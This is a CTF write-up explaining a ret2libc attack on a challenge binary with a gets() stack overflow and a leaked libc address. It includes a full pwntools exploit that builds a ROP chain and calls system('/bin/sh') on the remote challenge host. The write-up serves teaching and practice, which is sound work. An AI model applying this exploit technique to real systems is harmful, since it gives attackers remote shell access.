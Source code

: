 ![Screenshot 2025-02-17 000725](https://github.com/user-attachments/assets/66689f34-1117-411f-b525-4d468473d68b)
# Technique = *Ret2libc*


## 1. Patch binary & Binary protection checking.
We're given 3 binaries from the challenge they are *chall*, *ld-2.27.so*, and *libc-2.27.so*. Now let's do a patching on the *chall* binary.
```bash
~/Desktop/ctf/pwninit    # You can change this according to where you put your pwninit
```

Checking binary protection.
```bash
$ pwn checksec chall_patched 
[*] '/home/relster/Desktop/ctf/ehax/pwn/test/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    Stripped:   No
```


## 2. Analyze the binary statically & dynamically
Ghidra:\
![image](https://github.com/user-attachments/assets/5a8eb7b1-7f7c-417b-a5a1-ecceabab6762)\
Not much is happening here, the only main thing we need to pay attention is the *printf("%p",wctrans);* which is leaking a libc function to stdout and *gets((char \*)local_a8);* which lets us input more than the buffer could hold (overflow). From here we could tell that our exploit would implement ret2libc (return-to-libc) technique to achieve our goal which is popping a shell on remote machine.

PIE disabled is very helpful here because we can just grab our rop gadgets from the binary itself, below is the list of gadgets we'd use:\
```pop rdi; ret;``` <--- Popping the address of the string '/bin/sh\x00' to the RDI register.\
```ret;         ``` <--- Used for stack alignment purposes (since this is a 64bit binary).\
these 2 above would be enough to help us setup the exploit.

Noticed that PIE is disabled but here ASLR is enabled by default from our OS. Since ASLR randomizing base address of functions, then we'd have to use the leaked address at runtime to calculate the base address of *libc* in this case. If we got the base address of *libc* then address of function like *system()* would be easily obtain at runtime and we'd have to just do basic arithmetic of addresses here. The leaked address that we mention is *wctrans* as we see above in the *printf("%p",wctrans)*. Now we'd need the offset of *wctrans* to the *libc*'s base address, to obtain these offsets we can use *pwntools* we can also use *pwntools* to find the rop gadget that we need so we don't have to manually use *ropper*/*ROPgadget* to extract gadgets 1 by 1. One more thing to remember is the string '/bin/sh\x00' which we will need to pass it to *system()* where we can pop a shell. For obtaining the address of string '/bin/sh\x00' we can use method and function called *search()* and *next()*, more detail will be shown on the exploit. We will see the details below in the script.


## 3. Writing the exploit
We got 2 things to do here:
1. Find size from buffer to saved RBP.
2. Extract the leaked address from the binary and store it into a variable.

Let's find the offset first, this time we'll use gdb because it's straight forward (IMO).\
![image](https://github.com/user-attachments/assets/a55190e3-2701-4809-b848-d1dd2091ee9e)\
Since there's no canary so we don't have to worry about it. Let's put our focus to the buffer size and saved RBP, we can see that 0xa0 in decimal is 160, don't forget the 8 bytes of RBP too. So our total junk payload would be 168 bytes, this means our RIP will start at 169th byte up to 176th byte.

For extracting the *wctrans* leaked address we'd use python's slicing technique, more detail can be seen on the exploit.

Below is the final exploit for this challenge:
```python
#!/usr/bin/env python

from pwn import *

context.arch = 'amd64'
#context.log_level = 'DEBUG'

TARGET = './chall_patched'
HOST = 'chall.ehax.tech'    # nc chall.ehax.tech 4269
PORT = 4269

elf = ELF(TARGET)
libc = ELF('./libc.so.6')
ld = ELF("./ld-2.27.so")

if not args.REMOTE:
  p = process(TARGET)
else:
  p = remote(HOST, PORT)

gdb_script = f"""
    break *main
"""
#gdb.attach(p, gdbscript=gdb_script)

# ======================================= #
'''
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
'''

offset = b'A' * 168 # RIP at 169th

### 1st Step == Preparing everything (gadgets, offset, etc) ###

# gadgets & symbols offset
rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]
pop_rdi = rop.find_gadget(['pop rdi'])[0]
wctrans_offset = libc.symbols['wctrans']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b"/bin/sh\x00"))

print(f"ret : {hex(ret)}")
print(f"rdi : {hex(pop_rdi)}")
print(f"wctrans : {hex(wctrans_offset)}")
print(f"system : {hex(system_offset)}")
print(f"binsh : {hex(binsh_offset)}")

### 2nd Step == Calculating base address of libc and calculating other functions' address ###

# leaked wctrans, libc base, system()
p.recvline()
out = p.recvuntil(b'0x7')
leaked_wctrans = int((b'0x7' + p.recv()[:11]).decode(), 16)
libc_base = leaked_wctrans - wctrans_offset
system = libc_base + system_offset
binsh = libc_base + binsh_offset

print(f"leaked_wctrans : {hex(leaked_wctrans)}")
print(f"libc_base : {hex(libc_base)}")
print(f"system : {hex(system)}")
print(f"binsh : {hex(binsh)}")

### 3rd Step == Build payload and send it off to remote target ###

payload = flat(
    offset,
    ret,
    pop_rdi,
    binsh,
    system
)
p.sendline(payload)

p.interactive()
p.close()

# NOTE:
# ret2libc
```


## 4. Run the exploit
Local:\
![Screenshot 2025-02-17 024958](https://github.com/user-attachments/assets/39d3e76a-6b0f-48f4-8314-0aa1331bcea1)

Remote:\
![Screenshot 2025-02-17 025227](https://github.com/user-attachments/assets/ecbb101b-a013-42ae-b68f-8001b9f38eaa)


## Keyword
ret2libc\
ASLR and PIE\
x86_64 calling convention\
Binary dependency (specific libc for specific offset)
